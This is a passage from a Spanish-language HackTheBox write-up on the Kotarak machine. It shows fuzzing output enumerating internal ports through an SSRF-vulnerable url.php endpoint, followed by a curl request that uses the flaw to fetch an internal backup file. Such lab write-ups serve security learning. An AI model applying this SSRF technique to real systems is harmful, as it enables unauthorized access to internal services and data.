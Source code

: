 ```null
000000110:   200        17 L     24 W       187 Ch      "110"                                                                                                                                          
000003306:   200        2 L      6 W        123 Ch      "3306"                                                                                                                                         
000008080:   200        2 L      47 W       994 Ch      "8080"                                                                                                                                         
000060000:   200        78 L     130 W      1171 Ch     "60000"                                                                                                                                        

Total time: 0
Processed Requests: 65532
Filtered Requests: 65523
Requests/sec.: 0
```

El puerto 320 se ve asi

<img src="/writeups/assets/img/Kotarak-htb/3.png" alt="">

Y el 888

<img src="/writeups/assets/img/Kotarak-htb/4.png" alt="">

Puedo obtener el contenido de un backup

```null
curl -s -X GET 'http://10.10.10.55:60000/url.php?path=http://localhost:888/?doc=backup'
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
```